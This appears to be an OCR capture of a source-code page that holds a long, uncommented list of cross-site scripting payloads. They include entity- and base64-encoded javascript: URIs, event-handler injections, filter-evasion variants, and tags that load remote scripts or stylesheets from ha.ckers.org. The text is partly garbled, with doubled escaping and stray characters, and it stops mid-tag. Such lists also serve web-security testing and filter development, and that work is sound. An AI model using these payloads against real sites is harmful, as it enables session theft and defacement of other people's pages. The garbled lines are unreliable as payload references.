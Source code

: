 SRC=&amp;#0000106&amp;#0000097&amp;#0000118&amp;#0000097&amp;#0000115&amp;#0000099&amp;#0000114&amp;#0000105&amp;#0000112&amp;#0000116&amp;#0000058&amp;#0000097&amp;#0000108&amp;#0000101&amp;#0000114&amp;#0000116&amp;#0000040&amp;#0000039&amp;#0000088&amp;#0000083&amp;#0000083&amp;#0000039&amp;#0000041> &lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29> &lt;BODY BACKGROUND=”javascript:alert(‘XSS’)”> &lt;BODY ONLOAD=alert(‘XSS’)> &lt;INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”> &lt;IMG SRC=”javascript:alert(‘XSS’)” &lt;iframe src=http://ha.ckers.org/scriptlet.html &lt; javascript:alert("hellox worldss") &lt;img src="javascript:alert('XSS');"> &lt;img src=javascript:alert(&amp;quot;XSS&amp;quot;)> &lt;"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> &lt;META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"> &lt;IFRAME SRC="javascript:alert('XSS');">&lt;/IFRAME> &lt;EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always">&lt;/EMBED> &lt;SCRIPT a=">" SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;SCRIPT>document.write("&lt;SCRI");&lt;/SCRIPT>PT SRC="http://ha.ckers.org/xss.js">&lt;/SCRIPT> &lt;&lt;SCRIPT>alert("XSS");//&lt;&lt;/SCRIPT> &lt;"';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;/SCRIPT> ';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83,83))&lt;?/SCRIPT>&amp;submit.x=27&amp;submit.y=9&amp;cmd=search &lt;script>alert("hellox worldss")&lt;/script>&amp;safe=high&amp;cx=006665157904466893121:su_tzknyxug&amp;cof=FORID:9#510 &lt;script>alert("XSS");&lt;/script>&amp;search=1 0&amp;q=';alert(String.fromCharCode(88,83,83))//\';alert%2?8String.fromCharCode(88,83,83))//";alert(String.fromCharCode?(88,83,83))//\";alert(String.fromCharCode(88,83,83)%?29//-->&lt;/SCRIPT>">'>&lt;SCRIPT>alert(String.fromCharCode(88,83%?2C83))&lt;/SCRIPT>&amp;submit-frmGoogleWeb=Web+Search &lt;h1>&lt;font color=blue>hellox worldss&lt;/h1> &lt;BODY ONLOAD=alert('hellox worldss')> &lt;input onfocus=write(XSS) autofocus> &lt;input onblur=write(XSS) autofocus>&lt;input autofocus> &lt;body onscroll=alert(XSS)>&lt;br>&lt;br>&lt;br>&lt;br>&lt;br>&lt;br>...&lt;br>&lt;br>&lt;br>&lt;br>&lt;input autofocus> &lt;form>&lt;button formaction="javascript:alert(XSS)">lol &lt;!--&lt;img src="-->&lt;img src=x onerror=alert(XSS)//"> &lt;![>&lt;img src="]>&lt;img src=x onerror=alert(XSS)//"> &lt;style>&lt;img src="&lt;/style>&lt;img src=x onerror=alert(XSS)//"> &lt;? foo=">&lt;script>alert(1)&lt;/script>"> &lt;! foo=">&lt;script>alert(1)&lt;/script>"> &lt;/ foo=">&lt;script>alert(1)&lt;/script>"> &lt;? foo=">&lt;x foo='?>&lt;script>alert(1)&lt;/script>'>"> &lt;! foo="[[[Inception]]">&lt;x foo="]foo>&lt;script>alert(1)&lt;/script>"> &lt;% foo>&lt;x foo="%>&lt;script>alert(123)&lt;/script>"> &lt;div style="font-family:'foo&amp;#10;;color:red;';">LOL LOL&lt;style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:green;color:bl/*IE*/ue;}&lt;/style> &lt;script>({0:#0=alert/#0#/#0#(0)})&lt;/script> &lt;svg xmlns="http://www.w3.org/2000/svg">LOL&lt;script>alert(123)&lt;/script>&lt;/svg> &amp;lt;SCRIPT&amp;gt;alert(/XSS/&amp;#46;source)&amp;lt;/SCRIPT&amp;gt; \\";alert('XSS');// &amp;lt;/TITLE&amp;gt;&amp;lt;SCRIPT&amp;gt;alert(\"XSS\");&amp;lt;/SCRIPT&amp;gt; &amp;lt;INPUT TYPE=\"IMAGE\" SRC=\"javascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;BODY BACKGROUND=\"javascript&amp;#058;alert('XSS')\"&amp;gt; &amp;lt;BODY ONLOAD=alert('XSS')&amp;gt; &amp;lt;IMG DYNSRC=\"javascript&amp;#058;alert('XSS')\"&amp;gt; &amp;lt;IMG LOWSRC=\"javascript&amp;#058;alert('XSS')\"&amp;gt; &amp;lt;BGSOUND SRC=\"javascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;BR SIZE=\"&amp;{alert('XSS')}\"&amp;gt; &amp;lt;LAYER SRC=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/scriptlet&amp;#46;html\"&amp;gt;&amp;lt;/LAYER&amp;gt; &amp;lt;LINK REL=\"stylesheet\" HREF=\"javascript&amp;#058;alert('XSS');\"&amp;gt; &amp;lt;LINK REL=\"stylesheet\" HREF=\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;css\"&amp;gt; &amp;lt;STYLE&amp;gt;@import'http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;css';&amp;lt;/STYLE&amp;gt; &amp;lt;META HTTP-EQUIV=\"Link\" Content=\"&amp;lt;http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xss&amp;#46;css&amp;gt;; REL=stylesheet\"&amp;gt; &amp;lt;STYLE&amp;gt;BODY{-moz-binding&amp;#58;url(\"http&amp;#58;//ha&amp;#46;ckers&amp;#46;org/xssmoz&amp;#46;xml#xss\")}&amp;lt;/STYLE&amp;gt; &amp;lt;XSS STYLE=\"behavior&amp;#58; url(xss&amp;#46;htc);\"&amp;gt; &amp;lt;STYLE&amp;gt;li {list-style-image&amp;#58; url(\"javascript&amp;#058;alert('XSS')\");}&amp;lt;/STYLE&amp;gt;&amp;lt;UL&amp;gt;&amp;lt;LI&amp;gt;XSS &amp;lt;IMG
